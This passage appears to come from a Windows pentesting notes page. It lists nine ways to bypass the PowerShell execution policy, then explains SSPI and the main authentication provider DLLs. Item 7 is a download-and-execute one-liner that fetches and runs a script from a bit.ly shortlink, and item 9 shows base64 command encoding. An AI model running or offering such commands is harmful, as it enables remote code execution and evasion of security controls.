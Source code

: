 ```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```

More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

## Security Support Provider Interface (SSPI)

Is the API that can be use to authenticate users.

The SSPI will be in charge of finding the adequate protocol for two machines that want to communicate. The preferred method for this is Kerberos. Then the SSPI will negotiate which authentication protocol will be used, these authentication protocols are called Security Support Provider (SSP), are located inside each Windows machine in the form of a DLL and both machines must support the same to be able to communicate.

### Main SSPs

* **Kerberos**: The preferred one
  * %windir%\Windows\System32\kerberos.dll
* **NTLMv1** and **NTLMv2**: Compatibility reasons
  * %windir%\Windows\System32\msv1\_0.dll
* **Digest**: Web servers and LDAP, password in form of a MD5 hash
  * %windir%\Windows\System32\Wdigest.dll
* **Schannel**: SSL and TLS
  * %windir%\Windows\System32\Schannel.dll
* **Negotiate**: It is used to negotiate the protocol to use (Kerberos or NTLM being Kerberos the default one)
  * %windir%\Windows\System32\lsasrv.dll

#### The negotiation could offer several methods or only one.

## UAC - User Account Control
